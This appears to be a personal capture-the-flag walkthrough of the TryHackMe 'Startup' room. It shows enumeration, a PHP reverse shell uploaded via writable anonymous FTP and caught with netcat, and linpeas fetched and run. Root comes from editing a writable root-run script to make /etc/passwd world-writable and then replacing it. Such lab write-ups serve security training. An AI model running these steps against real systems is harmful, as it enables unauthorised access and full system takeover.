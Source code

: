 # THM-Startup
https://tryhackme.com/room/startup

Last CTF (THM - mrrobot) took to much time, mainly because I oweranalyzed things.
This one i´m going to look for the easy solutions.

## Lets go!

## Starting with standard enumeration.
********
### Nmap (top 1000 ports with script scan)
```
nmap 10.10.225.190 -sC
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 

22/tcp open  ssh
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http
|_http-title: Maintenance
```
We get that port 21, 22 and port 80 are open.
Because we used -sC we also get some extra info about FTP.
We can login as Anonumous and the ftp folder is writable.
We also get FTP and SSH server versions.
*************
### Dirbuster

```
dirb http://10.10.96.196 -w /usr/share/wordlists/dirb/common.txt

http://10.10.96.196/index.html
http://10.10.96.196/files/ftp/ 
```
Dirbuster shows that we can access the FTP folder from HTTP, **thats interesting** .
*******
### HTTP
The main web page is just a http file with nothing interesting.<br>
**But if we try the /files folder we get this!**<br>
![image](https://user-images.githubusercontent.com/93491173/216457959-4ac23f3e-f451-4385-82ff-23bda5fc37e2.png)<br>
The /ftp folder is empty.
*******
### FTP
The ftp folder writable, lets see what we can do with that.
We can start to upload pentestmonkey.php reverse shell.
```
ftp Anonymous@IPADRESS
no passwd

cd ftp
ftp> put
local: /home/kali/THM/Startup/Files/pentestmonkey.php remote: pentestmonkey.php
```
That worked fine, and its shows up in the browser.
*********
### Reverse shell
Lets try to get a revers shell running.
```
(local host) nc -nlvp 4444
```
Open the pentestmonkey.php in the web browser, we are connected!
*********
### Spawn a shell thru Python
Now we need a usable shell, let use Python to launch a shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
**********
### The secret recipe
Read the file /recipe.txt
```
www-data@startup:/$ 
cat /recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured <br> I can't keep it a secret forever and told him it was ****.
```
**********
### Linpeas (finding a weakness)
2 ways to get the Linpeas script oto the host.
1. 
```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230205/linpeas.sh
chmod +x linpeas.sh
```

```
download to LHOST
start a http server on LHOST
python -m http.server 53

Download to RHOST
cd /tmp
wget http://LHOST-IP:53/linpeas.sh
chmod +x linpeas.sh
```
Now lets run Linpeas
```
www-data@startup:/tmp$ ./linpeas.sh
```
Here we can se a suspicius file **/incidents/suspicious.pcapng**
Transfere the file to the LHOST using the FTP folder.
```
Copy file to HTTP/FTP folder. 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
Dowload the file from: 
http://RHOST/files/ftp/suspicius.pcapng
```
### Wireshark
Start Wireshark and load the suspicius.pcapng <br>
At line 152 we can se someone trying to access /home/lennie without permission. <br>
If we the follow the log file we can see at line 173 that someone is trying to run sudo -l <br>
![image](https://user-images.githubusercontent.com/93491173/216831507-48ef88e4-9e90-4ca4-8d9b-cfe44d21862c.png) <br>
At line 177 we can se the password someone is trying to use.<br>
![image](https://user-images.githubusercontent.com/93491173/216831624-3b487d43-220c-46ae-bf24-776e8cf99970.png)<br>
Lets try that password on all users, one by one untill we find the user with that password.
```
www-data@startup:/$ su lennie
su lennie
Password: **********
```
### user.txt
Now its time to check out that user.txt flag.
```
lennie@startup:/$ cd /home/lennie
cd /home/lennie
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt
cat user.txt
THM{**********}
```
### root(.txt)
Now its time to get access to the /root folder.<br>
In lennies folder there are a script folder.<br>
It contains planner.sh and startup_list.txt. <br>
planner.sh calls $LIST and adds it to plannet_list.txt and then run /etc/print.sh<br>
/etc/print.sh is writable and we can add any command that we want to run as root.<br>
if we add 
```
cat /root/root.txt 
```
we get the flag from root.txt.<br>

If we add this instead:
```
echo 'chmod ugo+rwx /etc/passwd' > /etc/print.sh
```
we will have full access to passwd.<br>
Now we can give our self root access.
```
cat /etc/passwd
```
Use cat output and make a new passwd on LHOST.
```
vi passwd 
*change groupmembership
lennie:x:0:0::/home/lennie:/bin/bash
[esc] 
:wq
```
This makes him member of root and gives him root access.<br>
Upload the file to RHOST, copy to /etc/passwd.
```
ftp Anonymous@IPADRESS
no passwd

cd ftp
ftp> put
local: passwd remote: passwd
cp /var/www/html/files/ftp/passwd /etc/passwd
```
### Login as root
First you need to logout<br>
And the login with root access
```
exit
www-data@startup:/$ su lennie
lennie
Password: *********
```
### You are now root!
